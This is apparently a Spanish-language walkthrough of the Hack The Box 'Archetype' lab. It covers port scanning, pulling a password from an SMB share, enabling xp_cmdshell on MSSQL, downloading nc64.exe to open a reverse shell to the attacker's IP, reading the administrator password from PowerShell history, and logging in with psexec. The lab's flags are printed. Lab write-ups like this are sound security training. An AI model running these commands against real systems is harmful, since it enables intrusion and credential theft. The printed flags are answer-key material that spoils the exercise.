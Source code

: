 ```yaml
---
title: Máquina Archetype
published: true
---
```


Jorge Marco Arráez

## [](#header-3) 1)  Which TCP port is hosting a database server?

sudo nmap -sS --min-rate 5000 -p- -n -Pn $IP
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-14 18:25 UTC
    Nmap scan report for 10.129.76.19
    Host is up (0.046s latency).
    Not shown: 65529 filtered tcp ports (no-response)
    PORT      STATE SERVICE
    135/tcp   open  msrpc
    139/tcp   open  netbios-ssn
    445/tcp   open  microsoft-ds
    49664/tcp open  unknown
    49665/tcp open  unknown
    49669/tcp open  unknown

este escaneo no me ha dado un puerto de cuatro dígitos, que es lo que me pide HTB, asi que llevo otro a cabo 

```
sudo nmap -sCV --min-rate 5000 -p- -n -Pn $IP
sudo nmap -sCV --min-rate 5000 -A -vvv -Pn -n -p 1433,139,445 -oN mainports $IP
```

1433/tcp open  ms-sql-s     syn-ack ttl 128 Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-04-15T14:07:35
| Not valid after:  2052-04-15T14:07:35
| MD5:   01b1 a439 ed24 1acd b23c 0a93 5f56 d65d
| SHA-1: ef69 46fa 4758 c842 b313 2728 1f41 4aa6 73f0 a0e5
|
|_ssl-date: 2022-04-15T14:17:15+00:00; 0s from scanner time.


el puerto que buscamos es el 1433

## [](#header-3) 2) What is the name of the non-Administrative share available over SMB?

smbclient -L $IP
root

Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC


backups

## [](#header-3) 3)  What is the password identified in the file on the SMB share?

smbclient \\\\$IP\\backups
ls
get prod.dtsConfig
M3g4c0rp123

## [](#header-3) 4)  What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?

https://github.com/SecureAuthCorp/impacket/tree/master/examples

En la carpeta examples está el código que necesitamos

mssqlclient.py

## [](#header-3) 5)  What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?

xp_cmdshell

## [](#header-3) 6)  What script can be used in order to search possible paths to escalate privileges on Windows hosts?

https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS

winpeas

## [](#header-3) 7)  What file contains the administrator's password?

python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth


tengo las siguientes herramientas:
	-> winpeas
	-> mssqlclient.py
	-> xp_cmdshell

cuando uso el programa de mssqlclient y me autentico con la contraseña que hemos conseguido antes,
entro a una base de datos que usa mssql. ahora la dificultad está en saber manejarse por una mssql.

listo las bases de datos que hay:

```
SELECT name FROM master.sys.databases 
```

master
tempdb
model
msdb

pruebo con msdb

(https://chartio.com/resources/tutorials/sql-server-list-tables-how-to-show-all-tables/)
(https://stackoverflow.com/questions/147659/get-list-of-databases-from-sql-server)

USE msdb
SELECT * FROM SYSOBJECTS WHERE xtype = 'U';
SELECT name FROM SYSOBJECTS WHERE xtype = 'U';

SELECT * FROM INFORMATION_SCHEMA.TABLES;

Las tablas que tiene la base de datos master son:
1) spt_fallback_db
2) spt_fallback_dev
3) spt_fallback_usg
4) spt_values
5) spt_monitor
6) MS_replication_options 

SELECT * FROM TableName

TABLAS 1, 2, 3: están vacias

La tabla 4 tiene muchísimas columnas, las más llamativas son: DB Owners, DB Access Administrators, DB Security Administrators, DB DDL Administrators  
WINDOWS/NT, WINDOWS LOGIN, CERTIFICATE, SQL USER, WINDOWS USER, LOGIN, WINDOWS LOGIN,

TABLA 5: parece vacía

TABLA 6: tiene 3 columnas, transactional, merge, security_model, pero al hacer SELECT merge FROM MSreplication_options no me deja sacar información

Leyendo hacktricks he visto que se puede habilitar el xp_cmdshell, asi que:

```
sp_configure 'show advanced options', '1'
RECONFIGURE

sp_configure 'xp_cmdshell', '1'
RECONFIGURE

EXEC master..xp_cmdshell 'whoami'
-> archetype\sql_svc
```

A partir de ahora tengo que mirar el walkthrough

El objetivo es establecer una reverse shell. Descargaremos nc64.exe y en esa carpeta, ejecutaremos el siguiente comando: 

```
sudo python3 -m http.server 80
```
Así abrimos el puerto 80 para poder conectarnos a nuestro ordenador desde la consola de la maquina que esta hosteando la base de datos

Usaremos netcat para escuchar por el puerto 443:

```
sudo nc -lvnp 443
```

Mi direccion ip es esta 10.10.14.110

Así que si desde la ventana de sql hacemos:

```
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.110/nc64.exe -outfile nc64.exe"
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.110 443"
```

## [](#header-3) 8)  Submit user flag

```
cd C:\Users\sql_svc\Desktop
dir
type user.txt
```

```
3e7b102e78218e935bf3f4951fec21a3
```

```
powershell
wget http://10.10.14.110/winPEASx64.exe -outfile winPEASx64.exe
./winPEASx64.exe
cd C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\
text ConsoleHost_history.txt
```
Con esto obtenemos la contraseña de administrator que es: "MEGACORP_4dm1n!!"


## [](#header-3) 9) Submit root flag

Ahora, con psexec.py y la contraseña que hemos hallado antes:

```
python3 psexec.py administrator@$IP
cd C:\Users\Administrator\Desktop
dir
type root.txt
```
```
b91ccec3305e98240082d4474b848528
```
